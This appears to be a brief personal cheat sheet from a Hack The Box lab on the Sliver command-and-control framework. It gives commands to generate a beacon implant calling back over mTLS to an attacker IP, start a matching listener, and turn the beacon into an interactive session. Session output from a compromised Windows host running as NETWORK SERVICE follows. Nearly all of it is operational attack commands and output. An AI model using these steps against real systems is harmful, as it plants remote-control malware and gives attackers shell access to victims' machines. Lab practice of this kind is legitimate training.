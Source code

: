 # Sliver C2  
### Generate a beacon  
sliver > `generate beacon --mtls 10.10.16.20:80 --save /home/kali/HTB/lab/bc1.exe`  
  
### Setup the listener  
sliver > `mtls --lhost 10.10.16.20 --lport 80`  

### Navigate    
sliver > `jobs`  
sliver > `use beacons`   
Select the beacon using arrows to move   

Once in the beacon shell, it is possible to turn the beacon shell into a session (interactive) shell with the following command :   
sliver (SOLID_TINDERBOX) > `interactive`  
[*] Using beacon's active C2 endpoint: mtls://10.10.16.20:80  
[*] Tasked beacon SOLID_TINDERBOX (da51bf52)  
[*] Session 437faed6 SOLID_TINDERBOX - 10.10.110.10:51443 (cywebdw) - windows/amd64 - Wed, 09 Aug 2023 13:16:42 EDT  

The new session appears :  
sliver (SOLID_TINDERBOX) > sessions   
| ID       | Transport | Remote Address     | Hostname | Username                      | Operating System | Health  |
| -------- | --------- | ------------------ | -------- | ----------------------------- | ---------------- | ------- |
| 437faed6 | mtls      | 10.10.110.10:51443 | cywebdw  | NT AUTHORITY\\NETWORK SERVICE | windows/amd64    | [ALIVE] | 

sliver (SOLID_TINDERBOX) > 




